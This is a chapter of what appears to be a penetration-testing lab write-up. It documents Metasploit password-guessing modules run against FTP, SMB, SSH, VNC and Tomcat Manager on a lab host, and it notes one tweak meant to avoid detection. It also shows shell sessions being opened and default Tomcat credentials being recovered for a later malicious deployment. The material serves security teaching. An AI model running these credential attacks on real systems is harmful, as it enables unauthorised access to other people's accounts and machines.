







# Phase 3 — Credential Discovery

> **Objective:** Use Metasploit login scanner auxiliary modules to perform credential testing across multiple services. All discovered credentials are automatically stored in the MSF database for reuse in later phases.

---

## FTP Credential Discovery

The `ftp_login` module performs credential testing against FTP services. Options like `BLANK_PASSWORD` and `USER_AS_PASS` efficiently check common credential patterns without needing a full wordlist.

```bash
use auxiliary/scanner/ftp/ftp_login

# Provide a file containing a list of usernames
set USER_FILE /home/kali/Desktop/user.txt

# Provide a file containing a list of passwords
set PASS_FILE /home/kali/Desktop/request.txt

# Test accounts with empty passwords
set BLANK_PASSWORD true

# Attempt login where the username is also used as the password
set USER_AS_PASS true

set RHOSTS 10.0.2.7
run
```





> **Result:** **3 valid credential pairs** were identified and automatically stored in the MSF workspace database.

---

## SMB Credential Discovery

The `smb_login` module performs authentication attempts against SMB services. Discovered credentials are stored in the MSF database and can later be used to authenticate other services on the target network.

```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS 10.0.2.7

# Provide a file containing a list of usernames
set USER_FILE /home/kali/Desktop/user.txt

# Provide a file containing a list of passwords
set PASS_FILE /home/kali/Desktop/request.txt

run
```



---

## SSH Credential Discovery

The `ssh_login` module performs credential testing against SSH services. The `THREADS` parameter controls the rate of login attempts to reduce noise.

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.0.2.7
set USER_FILE /home/kali/Desktop/user.txt
set PASS_FILE /home/kali/Desktop/request.txt

# Control concurrent threads to reduce detection risk
set THREADS 5
run
```



### Interacting with Discovered SSH Sessions

Once credentials are found, the Metasploit Framework automatically registers shell sessions for each valid login.

```bash
# List all active sessions
sessions

# Interact with a specific session
sessions -i 17

# Verify current user
whoami

# Show system information
uname -a
```



---

## VNC Credential Discovery

The `vnc_login` module tests credentials against VNC services. A successful result provides graphical remote desktop access to the target system.

```bash
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 10.0.2.7
run
```


### Verifying VNC Access

Once credentials were found, graphical access was verified using the `vncviewer` tool from the Kali Linux console:

```bash
vncviewer 10.0.2.7
```





---

## Apache Tomcat Manager Credential Discovery

The `tomcat_mgr_login` module tests credentials against the Apache Tomcat Manager interface on port 8180.

```bash
use auxiliary/scanner/http/tomcat_mgr_login

# Specify the Tomcat Manager port
set RPORT 8180
set RHOSTS 10.0.2.7

# Stop as soon as valid credentials are found
set STOP_ON_SUCCESS true
run
```


> **Result:** Valid Tomcat Manager credentials (`tomcat:tomcat`) were discovered and stored. These were used directly in Phase 4 to deploy a malicious WAR file.

---

## Credentials Summary

| Service | Port | Module Used | Result |
|---------|------|-------------|--------|
| FTP | 21 | `ftp_login` | 3 valid credentials found |
| SMB | 139/445 | `smb_login` | Valid credentials found |
| SSH | 22 | `ssh_login` | Valid credentials + shell sessions registered |
| VNC | 5900 | `vnc_login` | Valid credentials + graphical access confirmed |
| Tomcat | 8180 | `tomcat_mgr_login` | `tomcat:tomcat` confirmed |

---

➡️ [Phase 4 — Exploitation](./04-exploitation.md)
